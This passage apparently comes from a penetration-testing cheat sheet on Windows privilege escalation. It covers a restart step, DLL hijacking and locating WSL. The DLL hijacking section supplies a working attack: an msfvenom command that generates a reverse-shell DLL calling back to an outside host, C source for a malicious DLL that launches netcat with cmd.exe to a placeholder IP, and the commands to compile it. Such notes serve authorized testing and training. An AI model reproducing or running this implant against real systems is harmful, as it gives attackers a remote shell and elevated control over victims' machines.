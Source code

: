 If `AUTO_START` flag is enabled restart the machine

```
shutdown /r
```

## DLL Hijacking

When we have permissions to overwrite the DLL or the DLL is missing we can create ours.

### Msfvenom

A `dll` can also be created with `msfvenom`.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f dll -o mal.dll
```

### Manual DLL

The following C code is an example of our malicious `dll`.

```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe c:\Temp\nc.exe -e cmd.exe <IP> <PORT>");
        ExitProcess(0);
    }
    return TRUE;
}
```

### Compiling the DLL

```
#x64
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#x86
i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```


# WSL (Windows Subsystem for Linux)

Windows Subsystem for Linux is a compatibility layer for running Linux binary executables natively on Windows 10 and Windows Server 2019.

Location:

```
C:\Windows\System32\wsl.exe
```

Executing `wsl.exe` we can get a subsystem shell (Linux) or we can search the subsystem fileroot on the windows machine.
